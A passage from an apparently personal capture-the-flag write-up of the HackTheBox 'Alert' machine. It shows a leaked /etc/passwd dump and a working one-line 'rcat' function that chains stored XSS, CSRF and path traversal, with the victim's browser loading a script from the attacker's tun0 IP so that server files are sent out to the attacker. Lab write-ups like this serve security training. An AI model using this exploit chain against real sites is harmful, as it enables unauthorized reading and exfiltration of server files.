 ```
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
</pre>]
```

First thing is that we have discovered that we need `../../../..` to reach `/`, we will use this in a moment in new version of our XSS alias. Second thing is that we have found that there are two potentailly ineresting users `albert` `id(1000)` and `david` `id(1001)`. Let's upgrade our alias to XSS/Get-CSRF/LFI chain and name it `rcat` ('remote cat').

```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ rcat() { curl -X POST http://alert.htb/contact.php -d "email=john.doe@server.com&message=$(curl -X POST http://alert.htb/visualizer.php -s -F "file=@-;filename=xss.md" <<< "<script src='http://$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)/browse.php?path=/messages.php?file=../../../..$1'></script>" | grep Share | grep -oP 'href="\K[^"]+')" }; alias rcat='rcat'
```

With `rcat` in place let start browsing files. We do not hava ability to `ls` directories, so we must know beforehand what we are looking for. Let's check `/etc/hosts`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ rcat /etc/hosts
```
```
[2025-03-22 06:51:58] IP: [10.129.231.188] | User-Agent: [Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36] | Data: [<pre>127.0.0.1 localhost
127.0.1.1 alert
127.0.0.1 alert.htb
127.0.0.1 statistics.alert.htb

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```